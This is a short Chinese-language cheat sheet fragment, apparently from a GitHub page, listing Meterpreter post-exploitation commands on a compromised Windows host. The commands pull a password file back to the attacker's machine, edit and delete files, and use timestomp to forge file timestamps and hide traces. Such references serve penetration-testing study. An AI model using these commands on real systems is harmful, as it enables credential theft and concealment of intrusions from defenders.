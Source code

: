 ```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```

## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```












